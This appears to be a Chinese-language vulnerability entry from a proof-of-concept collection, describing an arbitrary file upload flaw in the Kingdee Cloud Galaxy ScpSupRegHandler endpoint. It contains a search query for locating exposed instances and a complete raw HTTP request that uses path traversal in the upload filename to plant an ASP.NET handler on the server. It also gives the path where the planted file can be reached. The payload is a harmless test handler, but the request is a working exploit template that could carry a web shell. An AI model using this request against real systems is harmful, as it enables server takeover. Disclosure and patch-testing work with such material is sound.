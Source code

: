 # 金蝶OA 云星空 ScpSupRegHandler 任意文件上传漏洞

## 漏洞描述

金蝶OA 云星空 ScpSupRegHandler 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取服务器权限

## 漏洞影响

<a-checkbox checked>金蝶OA 云星空</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="金蝶云星空-管理中心"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1684495679897-2feb46d7-5571-44e5-b6d1-b5997d685a9f-9419221.png)

验证POC

```php
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 973
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061

--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="dbId_v"

.
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FID"

2022
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/test.ashx."
Content-Type: text/plain

<%@ WebHandler Language="C#" Class="TestHandler" %>
        using System;
        using System.Web;
        public class TestHandler : IHttpHandler {
            public void
            ProcessRequest (HttpContext context) {
                context.Response.ContentType= "text/plain";
                context.Response.Write("Test");
            }
            public bool IsReusable {
                get {return false; }
            }
        }
--2ac719f8e29343df94aa4ab49e456061--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1699164389355-666b828b-1f8c-42ae-8ac3-08f60743488e.png)

```php
/K3Cloud/uploadfiles/Test.ashx
```
